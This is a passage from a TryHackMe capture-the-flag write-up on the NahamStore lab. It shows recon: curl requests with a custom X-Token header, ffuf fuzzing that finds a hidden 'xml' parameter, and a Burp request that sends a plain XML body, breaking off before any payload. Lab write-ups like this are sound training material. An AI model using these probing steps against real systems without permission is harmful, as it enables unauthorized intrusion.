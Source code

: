 `Missing header X-Token`?? **Let's add that header in `curl`:**

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl -X POST -H "X-Token: 1337" http://stock.nahamstore.thm/product/1
["X-Token 1337 is invalid"]
```

Invalid X-Token...

**When I fuzzed the GET parameter in `/product/1`, I successfully fuzzed a hidden GET parameter:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# ffuf -w /usr/share/seclists/Fuzzing/extensions-skipfish.fuzz.txt -u http://stock.nahamstore.thm/product/1?FUZZ -fs 41 
[...]
xml                     [Status: 200, Size: 88, Words: 4, Lines: 3, Duration: 205ms]
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a47.png)

**And when we supply the `X-Token` HTTP header:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl -X POST -H "X-Token: 1337" http://stock.nahamstore.thm/product/1?xml
<?xml version="1.0"?>
<data><error>Invalid XML supplied</error></data>
```

It says `Invalid XML supplied`.

**How about we change the XML body and the content type?**

**Burp Suite Request:**
```
POST /product/1?xml HTTP/1.1
Host: stock.nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml; charset=utf-8
Content-Length: 36
X-Token: 1337

<?xml version="1.0"?>
<data></data>
```
